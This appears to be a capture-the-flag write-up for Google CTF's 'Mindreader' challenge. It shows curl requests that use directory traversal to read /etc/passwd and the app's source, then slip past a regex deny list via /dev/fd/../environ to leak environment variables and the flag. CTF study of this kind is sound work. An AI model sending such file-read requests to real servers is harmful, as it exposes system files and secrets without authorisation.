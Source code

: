 ## Mindreader
### Description
Category: Miscellaneous  
Difficulty: Easy
```
Can you read my mind?

Challenge running at https://mindreader.web.ctfcompetition.com/
```
### Exploration
Visiting the challenge URL produces a web page:
```html
<html>
<head>
</head>
<body>
    <p>Hello, what do you want to read?</p>
    <form method="GET">
        <input type="text" name="f">
        <input type="submit" value="Read">
    </form>
</body>
</html>
```
### File reading
We guess that `f` stands for `file` and this script will read file contents.  
Reading `flag` and `flag.txt` yielded nothing.

Since this is an easy challenge we also guess that it's vulnerable to directory traversal.  
Fetching https://mindreader.web.ctfcompetition.com/?f=../../../../../etc/passwd confirmed this:
```
notcake@knotcake:~/googlectf$ curl https://mindreader.web.ctfcompetition.com/?f=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```
The flag was also not here.  
It turned out that https://mindreader.web.ctfcompetition.com/?f=/etc/passwd also worked.

### Reading the page's source
After trying to read `index.php` failed and many failed attempts to work out what was running the web server (nothing in `/proc` could be read), the hint for Secret Notes helped: `Hint: pyc`
```python
notcake@knotcake:~/googlectf$ curl https://mindreader.web.ctfcompetition.com/?f=main.py
from flask import Flask, request, abort
import re
import os
import logging

assert os.environ['FLAG']

app = Flask(__name__)

INDEX = open('index.html').read()

HALL_OF_SHAME = []

@app.route('/')
def index():
    for ip in request.headers.get('X-Forwarded-For', '').split(','):
        ip = ip.strip().lower()
        if ip in HALL_OF_SHAME:
            abort(403)

    if 'f' in request.args:
        try:
            f = request.args['f']
            if re.search(r'proc|random|zero|stdout|stderr', f):
                abort(403)
            elif '\x00' in f:
                abort(404)
            return open(f).read(4096)
        except IOError:
            abort(404)
    else:
        return INDEX
```
From this it can be seen that:
- The flag is stored in an environment variable, `FLAG`
- `/proc` is blocked but the script goes to great lengths to not block `/dev`

`/proc/self/environ` can't be read directly, but something under `/dev` might help.
```
notcake@knotcake:~/googlectf$ ls -al /dev
...
crw-rw----  1 root video    29,   0 Jun  3 23:07 fb0
lrwxrwxrwx  1 root root          13 Jun  3 23:07 fd -> /proc/self/fd
crw-rw-rw-  1 root root      1,   7 Jun  3 23:07 full
...
```

### Solution
Reading `/dev/fd/../environ` works:
```
notcake@knotcake:~/googlectf$ curl https://mindreader.web.ctfcompetition.com/?f=/dev/fd/../environ
GAE_MEMORY_MB=614HOSTNAME=2df8b7058b79GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170618t144344-lmkjPORT=8080HOME=/rootPYTHONUNBUFFERED=1GAE_SERVICE=mindreader-sss6w3uqjfrcntmnPATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGAE_DEPLOYMENT_ID=402060873983974243LANG=C.UTF-8DEBIAN_FRONTEND=noninteractiveGCLOUD_PROJECT=ctf-web-kuqo48dGOOGLE_CLOUD_PROJECT=ctf-web-kuqo48dCHALLENGE_NAME=mindreaderVIRTUAL_ENV=/envPWD=/home/vmagent/appGAE_VERSION=20170618t144344FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
```
And the flag is `CTF{ee02d9243ed6dfcf83b8d520af8502e1}`.
